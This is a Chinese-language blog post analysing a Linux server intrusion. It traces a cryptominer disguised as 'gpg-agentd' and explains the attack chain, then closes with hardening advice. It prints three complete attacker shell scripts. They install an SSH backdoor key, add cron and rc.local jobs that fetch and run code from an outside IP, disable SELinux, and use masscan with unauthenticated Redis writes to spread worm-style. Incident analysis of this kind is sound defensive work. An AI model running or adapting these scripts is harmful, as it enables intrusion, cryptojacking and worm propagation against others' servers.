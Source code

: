 # 记一次 Linux 被入侵全过程

url:https://www.wangan.com/articles/1804

0x00 背景
周一早上刚到办公室，就听到同事说有一台服务器登陆不上了，我也没放在心上，继续边吃早点，边看币价是不是又跌了。不一会运维的同事也到了，气喘吁吁的说：我们有台服务器被阿里云冻结了，理由：对外恶意发包。我放下酸菜馅的包子，ssh 连了一下，被拒绝了，问了下默认的 22 端口被封了。让运维的同事把端口改了一下，立马连上去，顺便看了一下登录名:root，还有不足 8 位的小白密码，心里一凉：被黑了！

0x01 查找线索
服务器系统 CentOS 6.X，部署了 nginx，tomcat，redis 等应用，上来先把数据库全备份到本地，然后 top 命令看了一下，有 2 个 99% 的同名进程还在运行，叫 gpg-agentd。



google 了一下 gpg，结果是：

GPG 提供的 gpg-agent 提供了对 SSH 协议的支持，这个功能可以大大简化密钥的管理工作。

看起来像是一个很正经的程序嘛，但仔细再看看服务器上的进程后面还跟着一个字母 d，伪装的很好，让人想起来 windows 上各种看起来像 svchost.exe 的病毒。继续

ps eho command -p 23374netstat -pan | grep 23374
查看 pid:23374 进程启动路径和网络状况，也就是来到了图 1 的目录，到此已经找到了黑客留下的二进制可执行文件。接下来还有 2 个问题在等着我：

1、文件是怎么上传的？

history 看一下，记录果然都被清掉了，没留下任何痕迹。继续命令 more messages，



看到了在半夜 12 点左右，在服务器上装了很多软件，其中有几个软件引起了我的注意，下面详细讲。边找边猜，如果我们要做坏事，大概会在哪里做文章，自动启动？定时启动？对，计划任务。

crontab -e


果然，线索找到了。

0x02 作案动机
上面的计划任务的意思就是每 15 分钟去服务器上下载一个脚本，并且执行这个脚本。我们把脚本下载下来看一下。

curl -fsSL 159.89.190.243/ash.php > ash.sh
脚本内容如下：

uname -aidhostnamesetenforce 0 2>/dev/nullulimit -n 50000ulimit -u 50000crontab -r 2>/dev/nullrm -rf /var/spool/cron/* 2>/dev/nullmkdir -p /var/spool/cron/crontabs 2>/dev/nullmkdir -p /root/.ssh 2>/dev/nullecho 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfB19N9slQ6uMNY8dVZmTQAQhrdhlMsXVJeUD4AIH2tbg6Xk5PmwOpTeO5FhWRO11dh3inlvxxX5RRa/oKCWk0NNKmMza8YGLBiJsq/zsZYv6H6Haf51FCbTXf6lKt9g4LGoZkpNdhLIwPwDpB/B7nZqQYdTmbpEoCn6oHFYeimMEOqtQPo/szA9pX0RlOHgq7Duuu1ZjR68fTHpgc2qBSG37Sg2aTUR4CRzD4Li5fFXauvKplIim02pEY2zKCLtiYteHc0wph/xBj8wGKpHFP0xMbSNdZ/cmLMZ5S14XFSVSjCzIa0+xigBIrdgo2p5nBtrpYZ2/GN3+ThY+PNUqx redisX' > /root/.ssh/authorized_keysecho '*/15 * * * * curl -fsSL 159.89.190.243/ash.php|sh' > /var/spool/cron/rootecho '*/20 * * * * curl -fsSL 159.89.190.243/ash.php|sh' > /var/spool/cron/crontabs/rootyum install -y bash 2>/dev/nullapt install -y bash 2>/dev/nullapt-get install -y bash 2>/dev/nullbash -c 'curl -fsSL 159.89.190.243/bsh.php|bash' 2>/dev/null
大致分析一下该脚本的主要用途：

首先是关闭 SELinux，解除 shell 资源访问限制，然后在 /root/.ssh/authorized_keys 文件中生成 ssh 公钥，这样每次黑客登录这台服务器就可以免密码登录了，执行脚本就会方便很多，关于 ssh keys 的文章可以参考这一篇文章 SSH 原理与运用。接下来安装 bash，最后是继续下载第二个脚本 bsh.php，并且执行。

继续下载并分析 bsh.pbp，内容如下：

sleep $( seq 3 7 | sort -R | head -n1 )cd /tmp || cd /var/tmpsleep 1mkdir -p .ICE-unix/... && chmod -R 777 .ICE-unix && cd .ICE-unix/...sleep 1if [ -f .watch ]; thenrm -rf .watchexit 0fisleep 1echo 1 > .watchsleep 1ps x | awk '!/awk/ && /redisscan|ebscan|redis-cli/ {print $1}' | xargs kill -9 2>/dev/nullps x | awk '!/awk/ && /barad_agent|masscan|.sr0|clay|udevs|.sshd|xig/ {print $1}' | xargs kill -9 2>/dev/nullsleep 1if ! [ -x /usr/bin/gpg-agentd ]; thencurl -s -o /usr/bin/gpg-agentd 159.89.190.243/dump.dbecho '/usr/bin/gpg-agentd' > /etc/rc.localecho 'curl -fsSL 159.89.190.243/ash.php|sh' >> /etc/rc.localecho 'exit 0' >> /etc/rc.localfisleep 1chmod +x /usr/bin/gpg-agentd && /usr/bin/gpg-agentd || rm -rf /usr/bin/gpg-agentdsleep 1if ! [ -x "$(command -v masscan)" ]; thenrm -rf /var/lib/apt/lists/*rm -rf x1.tar.gzif [ -x "$(command -v apt-get)" ]; thenexport DEBIAN_FRONTEND=noninteractiveapt-get update -yapt-get install -y debconf-docapt-get install -y build-essentialapt-get install -y libpcap0.8-dev libpcap0.8apt-get install -y libpcap*apt-get install -y make gcc gitapt-get install -y redis-serverapt-get install -y redis-toolsapt-get install -y redisapt-get install -y iptablesapt-get install -y wget curlfiif [ -x "$(command -v yum)" ]; thenyum update -yyum install -y epel-releaseyum update -yyum install -y git iptables make gcc redis libpcap libpcap-develyum install -y wget curlfisleep 1curl -sL -o x1.tar.gz https://github.com/robertdavidgraham/masscan/archive/1.0.4.tar.gzsleep 1[ -f x1.tar.gz ] && tar zxf x1.tar.gz && cd masscan-1.0.4 && make && make install && cd .. && rm -rf masscan-1.0.4fisleep 3 && rm -rf .watchbash -c 'curl -fsSL 159.89.190.243/rsh.php|bash' 2>/dev/null
这段脚本的代码比较长，但主要的功能有 4 个：

下载远程代码到本地，添加执行权限，chmod u+x。
修改 rc.local，让本地代码开机自动执行。
下载 github 上的开源扫描器代码，并安装相关的依赖软件，也就是我上面的 messages 里看到的记录。
下载第三个脚本，并且执行。
我去 github 上看了下这个开源代码，简直吊炸天。

MASSCAN: Mass IP port scanner
This is the fastest Internet port
scanner. It can scan the entire Internet in under 6 minutes, >
transmitting 10 million packets per second.
It produces results similar to nmap, the most famous port scanner.
Internally, it operates more > like scanrand, unicornscan, and ZMap,
using asynchronous transmission. The major difference is > that it’s
faster than these other scanners. In addition, it’s more flexible,
allowing arbitrary > address ranges and port ranges.
NOTE: masscan uses a custom TCP/IP stack. Anything other than simple
port scans will cause conflict with the local TCP/IP stack. This means
you need to either use the -S option to use a separate IP address, or

transmitting 10 million packets per second (每秒发送 1000 万个数据包)，比 nmap 速度还要快，这就不难理解为什么阿里云把服务器冻结了，大概看了下 readme 之后，我也没有细究，继续下载第三个脚本。

setenforce 0 2>/dev/nullulimit -n 50000ulimit -u 50000sleep 1iptables -I INPUT 1 -p tcp --dport 6379 -j DROP 2>/dev/nulliptables -I INPUT 1 -p tcp --dport 6379 -s 127.0.0.1 -j ACCEPT 2>/dev/nullsleep 1rm -rf .dat .shard .ranges .lan 2>/dev/nullsleep 1echo 'config set dbfilename "backup.db"' > .datecho 'save' >> .datecho 'flushall' >> .datecho 'set backup1 "


*/2 * * * * curl -fsSL http://159.89.190.243/ash.php | sh

"' >> .datecho 'set backup2 "


*/3 * * * * wget -q -O- http://159.89.190.243/ash.php | sh

"' >> .datecho 'set backup3 "


*/4 * * * * curl -fsSL http://159.89.190.243/ash.php | sh

"' >> .datecho 'set backup4 "


*/5 * * * * wget -q -O- http://159.89.190.243/ash.php | sh

"' >> .datecho 'config set dir "/var/spool/cron/"' >> .datecho 'config set dbfilename "root"' >> .datecho 'save' >> .datecho 'config set dir "/var/spool/cron/crontabs"' >> .datecho 'save' >> .datsleep 1masscan --max-rate 10000 -p6379,6380 --shard $( seq 1 22000 | sort -R | head -n1 )/22000 --exclude 255.255.255.255 0.0.0.0/0 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .shardsleep 1while read -r h p; docat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &done < .shardsleep 1masscan --max-rate 10000 -p6379,6380 192.168.0.0/16 172.16.0.0/16 116.62.0.0/16 116.232.0.0/16 116.128.0.0/16 116.163.0.0/16 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .rangessleep 1while read -r h p; docat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &done < .rangessleep 1ip a | grep -oE '([0-9]{1,3}.?){4}/[0-9]{2}' 2>/dev/null | sed 's//([0-9]{2})//16/g' > .inetsleep 1masscan --max-rate 10000 -p6379,6380 -iL .inet | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .lansleep 1while read -r h p; docat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &done < .lansleep 60rm -rf .dat .shard .ranges .lan 2>/dev/null
如果说前两个脚本只是在服务器上下载执行了二进制文件，那这个脚本才真正显示病毒的威力。下面就来分析这个脚本。

一开始的修改系统环境没什么好说的，接下来的写文件操作有点眼熟，如果用过 redis 的人，应该能猜到，这里是对 redis 进行配置。写这个配置，自然也就是利用了 redis 把缓存内容写入本地文件的漏洞，结果就是用本地的私钥去登陆被写入公钥的服务器了，无需密码就可以登陆，也就是我们文章最开始的 /root/.ssh/authorized_keys。登录之后就开始定期执行计划任务，下载脚本。好了，配置文件准备好了，就开始利用 masscan 进行全网扫描 redis 服务器，寻找肉鸡，注意看这 6379 就是 redis 服务器的默认端口，如果你的 redis 的监听端口是公网 IP 或是 0.0.0.0，并且没有密码保护，不好意思，你就中招了。

0x03 总结
通过依次分析这 3 个脚本，就能看出这个病毒的可怕之处，先是通过写入 ssh public key 拿到登录权限，然后下载执行远程二进制文件，最后再通过 redis 漏洞复制，迅速在全网传播，以指数级速度增长。那么问题是，这台服务器是怎么中招的呢？看了下 redis.conf，bind 的地址是 127.0.0.1，没啥问题。由此可以推断，应该是 root 帐号被暴力破解了，为了验证我的想法，我 lastb 看了一下，果然有大量的记录：



还剩最后一个问题，这个 gpg-agentd 程序到底是干什么的呢？我当时的第一个反应就是矿机，因为现在数字货币太火了，加大了分布式矿机的需求，也就催生了这条灰色产业链。于是，顺手把这个 gpg-agentd 拖到 ida 中，用 string 搜索 bitcoin,eth, mine 等相关单词，最终发现了这个：



打开 nicehash.com 看一下，一切都清晰了。



0x04 安全建议
一、服务器

1. 禁用 ROOT
2. 用户名和密码尽量复杂
3. 修改 ssh 的默认 22 端口
4. 安装 DenyHosts 防暴力破解软件

二、redis

1. 禁用公网 IP 监听，包括 0.0.0.0
2. 使用密码限制访问 redis

到此，整个入侵过程基本分析完了，如果大家对样本有兴趣，也可以自行去 curl，或是去虚拟机执行上面的脚本。鉴于本人能力有限，文中难免会出现疏忽或是错误，还请大家多多指正。

